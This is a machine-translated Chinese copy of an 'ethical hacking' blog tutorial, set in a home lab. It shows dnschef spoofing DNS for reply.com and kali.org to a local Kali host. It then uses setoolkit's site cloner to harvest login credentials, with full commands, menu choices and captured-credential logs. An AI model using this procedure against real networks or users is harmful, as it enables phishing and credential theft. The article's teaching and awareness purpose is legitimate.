



# DNS 劫持和凭证收集

> 原文：<https://levelup.gitconnected.com/ethical-hacking-part-9-dns-hijacking-credential-harvesting-db57302e5131>

## 理解风险以防止攻击的道德黑客行为 DNS 劫持和凭证收集的详细指南


本教程需要对 DNS 的工作原理有一个基本的了解。

## DNS 基础知识

DNS(域名系统)提供了一个人类可读的域名，如[reply.com](https://www.reply.com/en/)到 IP 地址之间的映射。想象一下，你必须用 IP 地址做广告或浏览网站。使用 IPv4 寻址将是一种痛苦的体验，但使用 IPv6 几乎无法使用。DNS 解析为互联网工作提供了基本功能。

您的设备(台式机、笔记本电脑、平板电脑、手机等。)都将配置 DNS 服务器。例如，谷歌的公共 DNS 服务器在 8.8.8.8 和 8.8.4.4。

```
kali@kali:~$ **nslookup**> **server 8.8.8.8**
Default server: 8.8.8.8
Address: 8.8.8.8#53> **reply.com**
Server:  8.8.8.8
Address: 8.8.8.8#53Non-authoritative answer:
Name: reply.com
Address: 45.60.1.11
Name: reply.com
Address: 45.60.5.11
```

“ **nslookup** ”是一个测试 DNS 解析的工具。如果您不提供 DNS " **服务器**，它将使用您的系统 DNS 设置，但是您可以使用"**服务器**命令覆盖它。我配置它使用 8.8.8.8，这是谷歌的主要公共 DNS 服务器。然后我输入“[reply.com](https://www.reply.com/en/)”，解析出 IPv4 地址 45.60.5.1.11。IPv4 地址将用于将您的请求从您的设备路由到托管回复网站的 web 服务器。我在这里简化了解释，但在基本层面上，这就是正在发生的事情。

## 现在问题来了…

如果有可能以某种方式劫持客户端的 DNS 请求呢？所以不是官方 DNS 服务器回应说 45.60.5.11 是托管回复站点的网络服务器的 IP 地址，而是 192.168.1.2，这是我局域网上 Kali 服务器的地址。这确实是个问题！

我的 Kali 服务器的内部 IP 地址是不可公开路由的，但这并不意味着你不能使用 DMZ、云实例、VPN 等在互联网上使用它。出于本教程的目的，为了演示这种技术，我将使用我的本地 Kali 服务器。

如果您能够以某种方式访问受害者的路由器，您可以将您的攻击 DNS 作为列表中的第一个 DNS 服务器。这意味着，如果它启动了，它将首先被查询，然后是真正的 DNS 服务器。受害者实际上并不知道已经添加了一个额外的 DNS 服务器，即使他们看到了，他们甚至会质疑它。

想想所有的家用路由器，它们实际上都有路由器本身的登录凭证！如果您能够利用我的另一篇文章“[道德黑客(第 7 部分):Metasploit 渗透测试框架](/ethical-hacking-part-7-metasploit-penetration-testing-framework-b768dac407a)”中讨论的漏洞访问受害者的设备，会怎么样？有许多方法可以做到这一点，但我只是给你一些思考的食物。

## **准备**

我的 Kali linux 实例运行在 192.168.1.2 上，我的受害者设备运行在 192.168.1.1 上。我已经更新了受害者设备上的 DNS 设置，使 192.168.1.2 位于 TCP/IP 设置中 DNS 服务器列表的顶部。如果受害者的设备使用 DHCP，您也可以在 DHCP 服务器(可能是路由器)上进行这种更改，这将产生相同的效果。就本教程而言，我想演示如何预先准备和交换到攻击者的 DNS 服务器是无缝的。即使 192.168.1.2 没有响应，我的受害者设备仍然运行良好。我的请求将首先尝试 192.168.1.2，然后失败，此时它将尝试列表中的下一个 DNS 服务器。作为受害者，没有明显的变化发生。

## 劫持 DNS

我们将使用一个名为“ **dnschef** 的实用程序，它与 Kali linux 捆绑在一起。

```
kali@kali:~$ **dnschef --help**
usage: dnschef [options]:
          _                _          __  
         | | version 0.4  | |        / _| 
       __| |_ __  ___  ___| |__   ___| |_ 
      / _` | '_ \/ __|/ __| '_ \ / _ \  _|
     | (_| | | | \__ \ (__| | | |  __/ |  
      \__,_|_| |_|___/\___|_| |_|\___|_|  
                   [iphelix@thesprawl.org](mailto:iphelix@thesprawl.org)DNSChef is a highly configurable DNS Proxy for Penetration Testers and Malware
Analysts. It is capable of fine configuration of which DNS replies to modify
or to simply proxy with real responses. In order to take advantage of the tool
you must either manually configure or poison DNS server entry to point to
DNSChef. The tool requires root privileges to run on privileged ports.optional arguments:
  -h, --help            show this help message and exit
  --fakedomains thesprawl.org,google.com
                        A comma separated list of domain names which will be
                        resolved to FAKE values specified in the the above
                        parameters. All other domain names will be resolved to
                        their true values.
  --truedomains thesprawl.org,google.com
                        A comma separated list of domain names which will be
                        resolved to their TRUE values. All other domain names
                        will be resolved to fake values specified in the above
                        parameters.Fake DNS records::
  --fakeip 192.0.2.1    IP address to use for matching DNS queries. If you use
                        this parameter without specifying domain names, then
                        all 'A' queries will be spoofed. Consider using --file
                        argument if you need to define more than one IP
                        address.
  --fakeipv6 2001:db8::1
                        IPv6 address to use for matching DNS queries. If you
                        use this parameter without specifying domain names,
                        then all 'AAAA' queries will be spoofed. Consider
                        using --file argument if you need to define more than
                        one IPv6 address.
  --fakemail mail.fake.com
                        MX name to use for matching DNS queries. If you use
                        this parameter without specifying domain names, then
                        all 'MX' queries will be spoofed. Consider using
                        --file argument if you need to define more than one MX
                        record.
  --fakealias [www.fake.com](http://www.fake.com)
                        CNAME name to use for matching DNS queries. If you use
                        this parameter without specifying domain names, then
                        all 'CNAME' queries will be spoofed. Consider using
                        --file argument if you need to define more than one
                        CNAME record.
  --fakens ns.fake.com  NS name to use for matching DNS queries. If you use
                        this parameter without specifying domain names, then
                        all 'NS' queries will be spoofed. Consider using
                        --file argument if you need to define more than one NS
                        record.
  --file FILE           Specify a file containing a list of DOMAIN=IP pairs
                        (one pair per line) used for DNS responses. For
                        example: google.com=1.1.1.1 will force all queries to
                        'google.com' to be resolved to '1.1.1.1'. IPv6
                        addresses will be automatically detected. You can be
                        even more specific by combining --file with other
                        arguments. However, data obtained from the file will
                        take precedence over others.Optional runtime parameters.:
  --logfile FILE        Specify a log file to record all activity
  --nameservers 8.8.8.8#53 or 4.2.2.1#53#tcp or 2001:4860:4860::8888
                        A comma separated list of alternative DNS servers to
                        use with proxied requests. Nameservers can have either
                        IP or IP#PORT format. A randomly selected server from
                        the list will be used for proxy requests when provided
                        with multiple servers. By default, the tool uses
                        Google's public DNS server 8.8.8.8 when running in
                        IPv4 mode and 2001:4860:4860::8888 when running in
                        IPv6 mode.
  -i 127.0.0.1 or ::1, --interface 127.0.0.1 or ::1
                        Define an interface to use for the DNS listener. By
                        default, the tool uses 127.0.0.1 for IPv4 mode and ::1
                        for IPv6 mode.
  -t, --tcp             Use TCP DNS proxy instead of the default UDP.
  -6, --ipv6            Run in IPv6 mode.
  -p 53, --port 53      Port number to listen for DNS requests.
  -q, --quiet           Don't show headers.
```

这里有很多配置选项，但是本教程的目标很简单。我们想在浏览网页时劫持域名系统[reply.com](http://www.reply.com.)。

```
root@kali:~# **dnschef --fakeip=192.168.1.2 --fakedomains=reply.com --interface=0.0.0.0**
          _                _          __  
         | | version 0.4  | |        / _| 
       __| |_ __  ___  ___| |__   ___| |_ 
      / _` | '_ \/ __|/ __| '_ \ / _ \  _|
     | (_| | | | \__ \ (__| | | |  __/ |  
      \__,_|_| |_|___/\___|_| |_|\___|_|  
                   [iphelix@thesprawl.org](mailto:iphelix@thesprawl.org)(16:49:36) [*] DNSChef started on interface: 0.0.0.0
(16:49:36) [*] Using the following nameservers: 8.8.8.8
(16:49:36) [*] Cooking A replies to point to 192.168.1.2 matching: reply.com
```

有效果吗？

我走到我的受害者机器前，运行了一个“ **nslookup** ”。

```
% **nslookup reply.com**
Server:  192.168.1.2
Address: 192.168.1.2#53**Name: reply.com
Address: 192.168.1.2**% **nslookup www.reply.com**
Server:  192.168.1.2
Address: 192.168.1.2#53**Name: www.reply.com
Address: 192.168.1.2**
```

你能看到我的受害者机器现在认为，“[**reply.com**](http://www.reply.com.)”解析为 192.168.1.2 而不是 45.60.5.1.11。我的意思是那是相当灾难性的。

你可能在想，“那又怎样？”。没有网络服务器运行，所以如果受害者浏览一个因为不存在而没有响应的网站又有什么区别呢？你可能是对的，这就是为什么我们接下来要看" **setoolkit** "的原因。

**社会工程师工具包(SET)——“setoolkit”** 这是一个非常强大的工具，具有很多功能。我鼓励你去探索和了解它所提供的一切。出于本教程的目的，我将去一个特定的部分，这是克隆一个网站，以收获凭证。

如果这是你第一次运行" **setoolkit** "它会要求你接受一个免责声明，表明你不会用它来做任何非法的事情。

```
root@kali:~# **setoolkit**.  ..
                       MMMMMNMNMMMM=
                   .DMM.           .MM$
                 .MM.                 MM,.
                 MN.                    MM.
               .M.                       MM
              .M   .....................  NM
              MM   .8888888888888888888\.   M7
             .M    88888888888888888888\.   ,M
             MM       ..888.MMMMM    .     .M.
             MM         888.MMMMMMMMMMM     M
             MM         888.MMMMMMMMMMM.    M
             MM         888\.      NMMMM.   .M
              M.        888.MMMMMMMMMMM.   ZM
              NM.       888.MMMMMMMMMMM    M:
              .M+      .....              MM.
               .MM.                     .MD
                 MM .                  .MM
                  $MM                .MM.
                    ,MM?          .MMM
                       ,MMMMMMMMMMM
                [https://www.trustedsec.com](https://www.trustedsec.com)[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: [@TrustedSec](http://twitter.com/TrustedSec)         [---]
[---]        Follow me on Twitter: [@HackingDave](http://twitter.com/HackingDave)        [---]
[---]       Homepage: [https://www.trustedsec.com](https://www.trustedsec.com)       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.The Social-Engineer Toolkit is a product of TrustedSec.Visit: [https://www.trustedsec.com](https://www.trustedsec.com)It's easy to update using the PenTesters Framework! (PTF)
Visit [https://github.com/trustedsec/ptf](https://github.com/trustedsec/ptf) to update all your tools!Select from the menu: **1) Social-Engineering Attacks**
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About99) Exit the Social-Engineer Toolkitset>
```

对于**社会工程攻击**，选择 **1** 。

```
set> 1Select from the menu: 1) Spear-Phishing Attack Vectors
   **2) Website Attack Vectors**
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules99) Return back to the main menu.set>
```

然后“ **2** ”为“**网站攻击媒介**”。

```
set> **2**The **Web Attack module** is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.The **Java Applet Attack** method will spoof a Java Certificate and deliver a metasploit based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.The **Metasploit Browser Exploit** method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.The **Credential Harvester** method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.The **TabNabbing** method will wait for a user to move to a different tab, then refresh the page to something different.The **Web-Jacking Attack** method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if its too slow/fast.The **Multi-Attack** method will add a combination of attacks through the web attack menu. For example you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.The **HTA Attack** method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser. 1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   **3) Credential Harvester Attack Method**
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method99) Return to Main Menuset:webattack> 
```

选择“ **3** 或“**凭证采集器攻击方式**”。

```
set:webattack> **3**The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.

   1) Web Templates
   **2) Site Cloner**
   3) Custom Import99) Return to Webattack Menuset:webattack>
```

为**站点克隆器**选择 **2** 。

请注意，“ **settoolkit** ”将运行自己的网络服务器。如果你有 Apache 或 NGINX 运行，它会问你是否要停止服务(你这样做是为了工作)。参见**下方粗体**中突出显示的要点。

```
set:webattack> **2**
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesns't know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perpective, it will not work. This isn't a SET issue
this is how networking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing [**192.168.1.2**]:
[-] SET supports both HTTP and HTTPS
[-] Example: [http://www.thisisafakesite.com](http://www.thisisafakesite.com)
set:webattack> Enter the url to clone:[**https://reply.com**](http://reply.com)[*] Cloning the website: [**https://reply.com**](http://reply.com)
[*] This could take a little bit...The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
**[*] Looks like the web_server can't bind to 80\. Are you running Apache or NGINX?
Do you want to attempt to disable Apache? [y/n]: y**
**Stopping apache2 (via systemctl): apache2.service.
Stopping nginx (via systemctl): nginx.service.**
[*] Successfully stopped Apache. Starting the credential harvester.
[*] Harvester is ready, have victim browse to your site.
```

几秒钟内，回复网站就被克隆了。如果我打开“http://192.168.1.2”，我可以在本地看到回复站点，站点看起来一模一样。“ **setoolkit** ”日志如下所示。

```
192.168.1.1 - - [18/Oct/2020 22:08:58] "GET / HTTP/1.1" 200 -
192.168.1.1 - - [18/Oct/2020 22:08:58] "GET /index.html HTTP/1.1" 200 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /style%20library/scripts/mtiFontTrackingCode.js HTTP/1.1" 404 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/userhandler.ashx?_=1603055340102 HTTP/1.1" 404 -
[*] WE GOT A HIT! Printing the output:
PARAM: {"Pattern":"[3,1,1,1]","Cycles":4,"Language":2,"Tags":[],"TagsInOr":true,"Sites":[1],"SortFields":["REUHomeOrderDate","REUValidityStartDate","Created"],"IsAscending":[false,false,false],"IsInHome":true,"IsInHomeSites":false,"TemplateB1":"1Block","TemplateB2":"2Block","TemplateB3":"3Block","PagingInfo1":"Paged=TRUE
PARAM: p_REUHomeOrderDate=20140603 22:00:00
PARAM: p_REUValidityStartDate=20140501 07:00:00
PARAM: p_Created=20140131 14:17:24
PARAM: p_ID=5672","PagingInfo2":"","PagingInfo3":"Paged=TRUE
PARAM: p_REUHomeOrderDate=20140825 22:00:00
PARAM: p_REUValidityStartDate=20140825 22:00:00
PARAM: p_Created=20140826 09:04:38
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/userhandler.ashx?_=1603055340103 HTTP/1.1" 404 -
PARAM: p_ID=6728","HasMoreResults":true,"WidgetListName":"Contents","PageNumber":2,"PageUrl":"[https://www.reply.com/en/SitePages/HomePage.aspx](https://www.reply.com/en/SitePages/HomePage.aspx)","CachePageUrl":"/en/sitepages/homepage.aspx","IsCacheActive":true,"HasFilters":false,"CacheAllWidgets":true,"IsPublicZone":true,"IsPast":false,"Title":null,"ExcludeId":[15902,20899,19155,20793,20670,20515,19773,20373,19941,19600,19258,19847,19764,19230,19314,19315,19503,19373,19081,19172,19191,18863,19162,18866,18728,18977,18687,18724,18134,17104,18654,18373,18462,18470,18231,18276,18122,17864,18206,17546,17138,16705,17153,17049,16532,15619,16618,16298,16180,16418,16272,14810,15043,13762,16279,15958,14584,14685,14194,14504,14395,13339,11709,11702,13173,11185,10736,11606,13646,10316,11577],"DateFrom":null,"DateTo":null,"Typologies":null,"PageWidgetTemplates":[[5507,15],[5516,4],[5486,4],[6171,3],[5483,3],[5478,3],[2309,4],[5998,3],[6172,3],[6203,3],[5875,3],[5890,4],[2117,3],[6405,16],[5604,3],[6196,5],[2449,4],[5749,3],[5926,3],[5956,4],[5710,3],[6019,3],[1246,4],[5794,3],[5698,3],[5716,3],[1139,4],[5941,13],[5983,4],[1044,4],[5669,4],[6142,9],[6232,3],[5995,4],[5672,4],[2116,3],[6412,3],[5475,3],[5947,4],[6495,4],[5734,4],[9187,3],[7900,4],[8464,4],[1943,3],[10015,3],[6163,4]],"Skip":0,"Topic":null,"ExtraConditions":null,"ForcedTemplateID":-1,"FirstForcedTemplateID":-1}
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.1.1 - - [18/Oct/2020 22:09:00] "POST /_layouts/15/reply.replyeu.wcm/getwidgetsasync.ashx HTTP/1.1" 302 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/menuhandler.ashx?CurrentUrl=http%3A%2F%2F192.168.1.2%2F&ParentIDList=76,43&_=1603055340105 HTTP/1.1" 404 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/menuhandler.ashx?CurrentUrl=http%3A%2F%2F192.168.1.2%2F&Mode=descendants&ParentIDList=2,8,14,21,25,29,45,34,37&_=1603055340104 HTTP/1.1" 404 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/userhandler.ashx?_=1603055340106 HTTP/1.1" 404 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/userhandler.ashx?_=1603055340107 HTTP/1.1" 404 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_layouts/15/reply.replyeu.wcm/cookiebannerhandler.ashx?CurrentUrl=http%3A%2F%2F192.168.1.2%2F&_=1603055340108 HTTP/1.1" 404 -
192.168.1.1 - - [18/Oct/2020 22:09:00] "GET /_Incapsula_Resource?SWKMTFSR=1&e=0.5164617984924778 HTTP/1.1" 404 -
```

在我的浏览器中，它看起来像这样…



完全匹配。

现在，如果我在一个终端窗口中确保“ **dnschef** ”正在为“**reply.com**”运行，而“ **settoolkit** ”仍在另一个终端窗口中运行，如果我在受害者机器上浏览到“**www.reply.com**”或“**reply.com**”，该站点将看起来完全一样。你能区别的唯一方法是网站使用 HTTP 而不是 SSL。如果你看浏览器 URL 旁边，它显示“**不安全**”，并且没有锁定。这应该是一个教训，你应该总是使用 HTTPS (SSL)而不是 HTTP 浏览，你应该在浏览器的 URL 旁边看到一个锁。

**如果有任何问题，请确保清除浏览器中的缓存，关闭所有浏览器窗口，然后重新打开它们。您需要确保您不是在浏览器中检索缓存版本。**

这很好…



这很糟糕…



所以我所做的就是在几秒钟内克隆网站，虽然这令人印象深刻，但没有收获任何凭证。

用" **setoolkit** "克隆站点时，一个重要的信息是这样的。

```
The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
```

让我们试着在登录页面上找到一个带有登录表单的站点来尝试一下。

我将使用“[**”https://forums.kali.org**](https://forums.kali.org.)”作为它的一个很好的例子。它在登录页面上有一个用户名和密码表单，所以我们可以开始了。

在一个 Kali linux 终端窗口中，我启动“ **dnschef** ”。

```
root@kali:~# **dnschef --fakeip=192.168.1.2 --fakedomains=kali.org --interface=0.0.0.0**
```

在另一个 Kali linux 终端窗口中，我用“ **setoolkit** ”克隆了这个站点。

```
set:webattack> IP address for the POST back in Harvester/Tabnabbing [**192.168.1.2**]:
[-] SET supports both HTTP and HTTPS
[-] Example: [http://www.thisisafakesite.com](http://www.thisisafakesite.com)
set:webattack> Enter the url to clone:[**https://forums.kali.org**](https://forums.kali.org)[*] Cloning the website: [https://forums.kali.org](https://forums.kali.org)
[*] This could take a little bit...The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

我检查我的受害者机器，forums.kali.org 的 DNS 解析为 192.168.1.2。

```
% **nslookup forums.kali.org**      
Server:  192.168.1.2
Address: 192.168.1.2#53Name: forums.kali.org
Address: 192.168.1.2
```

这很重要。我们需要确保受害者浏览器没有缓存原始站点。请清除缓存并关闭浏览器窗口以确保安全。完成后，打开浏览器并打开“**forums.kali.org**”。我们将知道它已经工作，因为它将显示连接将使用 HTTP 而不是 HTTPS，并将有一条消息说“**不安全**”。

在页面上的用户名和密码字段中，我键入“ **testuser** 作为用户名，键入“ **testpass** 作为密码。由于我们并没有真正访问 Kali 论坛，登录将会失败，但是我们会在" **setoolkit** "日志中看到登录的详细信息。

```
192.168.1.1 - - [18/Oct/2020 22:40:02] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: vb_login_username=**testuser**
POSSIBLE USERNAME FIELD FOUND: vb_login_password=
POSSIBLE PASSWORD FIELD FOUND: vb_login_password=
POSSIBLE USERNAME FIELD FOUND: vb_login_password_hint=**testpass**
POSSIBLE PASSWORD FIELD FOUND: vb_login_password_hint=**testpass**
PARAM: s=301f0571702614d88e1b330ebaa0751d
PARAM: securitytoken=guest
POSSIBLE USERNAME FIELD FOUND: do=login
POSSIBLE USERNAME FIELD FOUND: vb_login_md5password=
POSSIBLE PASSWORD FIELD FOUND: vb_login_md5password=
POSSIBLE USERNAME FIELD FOUND: vb_login_md5password_utf=
POSSIBLE PASSWORD FIELD FOUND: vb_login_md5password_utf=
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.1.1 - - [18/Oct/2020 22:40:21] "POST /login.php?s=301f0571702614d88e1b330ebaa0751d&do=login HTTP/1.1" 302 -
```

在此阶段，您可以停止“ **dnschef** ”和“ **setoolkit** ”，受害用户无疑会刷新。这将意味着我们的 DNS 响应者将不会响应，他们将击中真正的网站，他们将一无所知。

我知道这看起来很疯狂，但这表明你在使用公共互联网接入或错误浏览恶意网站时需要多小心。我知道当你外出时发现免费 Wifi 时，每个人都会超级兴奋，但问问你自己，你能信任它吗？如果他们的 Wifi 给你发送了糟糕的 DNS 服务器，你就完了。如果他们没有保护好他们的路由器，黑客添加了坏的 DNS 服务器。

有一个不错的网络安全病毒扫描程序来帮助你抵御这种攻击是个好主意。很容易落入这个陷阱，所以要小心。

我给你看这个不是为了让你实施这些攻击，而是为了让你意识到你在防范什么，以及如何采取必要的预防措施来尽可能地保证网络安全。

为了进一步阅读，看看我写的关于这个话题的 19 个故事。


迈克尔·惠特尔

## 道德黑客培训课程

[View list](https://whittle.medium.com/list/ethical-hacking-training-course-710769700b83?source=post_page-----db57302e5131--------------------------------)19 stories

# 迈克尔·惠特尔

*   ***如果你喜欢这个，请*** [***跟我上媒***](https://whittle.medium.com/)
*   ***更多有趣的文章，请*** [***关注我的刊物***](https://medium.com/trading-data-analysis)
*   ***有兴趣合作吗？*** [***我们来连线一下领英***](https://www.linkedin.com/in/miwhittle/)
*   ***支持我和其他媒体作者*** [***在此报名***](https://whittle.medium.com/membership)
*   ***请别忘了为文章鼓掌:)←谢谢！***